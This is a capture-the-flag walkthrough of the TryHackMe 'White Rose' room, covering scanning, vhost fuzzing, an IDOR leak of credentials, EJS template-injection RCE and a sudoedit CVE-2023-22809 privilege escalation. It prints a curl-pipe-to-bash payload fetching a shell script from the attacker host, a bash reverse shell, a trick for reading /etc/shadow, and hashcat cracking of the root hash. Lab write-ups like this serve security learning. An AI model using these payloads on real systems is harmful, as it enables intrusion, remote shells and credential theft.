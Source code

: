 ```yaml
---
layout: post
title: White Rose (TryHackMe)
date: 2025-04-19
categories: [CTF, TryHackme]
tags: [SSTI, Sudo]
---
```


### Nmap

```bash
nmap -p- -T4 <Target-IP> # This will scan all the 65535 port.

nmap -A -p 22,80 -T4 <Target-IP> -oN WhiteRose_Nmap_result # From the above cmd output we can run the 2 ports in Aggressive mode.
```
- Why i didn't ran the "-A" scan in the first command itself it is because scanning all 65535 ports in Aggressive mode takes more time and it is waste of time. That's the reason i ran the results of the first cmd to the second.
- If you don't feel like doing this much we can utilize a tool called rustscan this will automate the above process.

### Rustscan

```bash
rustcan -a <Target-IP> -- -A -oN WhiteRose_nmap_result

#Cmd Breakdown

-a will scan for all ports
-- will pass the rustscan output to the nmap
-A aggressive mode in Nmap
-oN To save the output
```


### Nmap scan Result

```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch

```bash
dirsearch -u http://<target-IP> 
```

- Nothing Intresting

### Vhost Fuzzing

```bash
ffuf -u http://cyprusbank.thm -w subdomain.txt -H "HOST:FUZZ.cuyprusbank.thm" 

www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![Admin_panel](https://c00lrabbit.github.io/assets/Images/white-rose/WhiteR-Adm-panel.png){: .center-image }

## IDOR found on msg section in the URL
![IDOR In msg](https://c00lrabbit.github.io/assets/Images/white-rose/IDOR-Msg.png){: .center-image }

```
Found these creds using IDOR

Gayle Bev : <REDECTED>
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![ejs-vuln](https://c00lrabbit.github.io/assets/Images/white-rose/ejs-vuln.png){: .center-image }
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000');s
```
- We got a hit in our python server

![Python-server](https://c00lrabbit.github.io/assets/Images/white-rose/python-server.png)

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.X.X/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit --v
Sudo version 1.9.12p1

```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

## Exploit

#### To get the root Hash

```bash
export EDITOR="vi -- /etc/shadow"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
- After running this we can get the root hash then we can crack it through hashcat

```bash
hashcat -a 0 -m 3200 root-hash.txt rockyou.txt
```


#### To get the root flag

```bash
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag

## Conclusion

- WhiteRose is inspired from "Mr.Robot" Series, This box gives basic knowledege of SSTI(Server Side Template Imjection) and Priexc using Sudo.
- Most of us will ignore the sudo to check for vuln ("Including me"). This box teach us to check everything.
- Overall it is a stright forward enjoyable box which i like.

## As Heath aka TCM said "Enumeration is key to success"
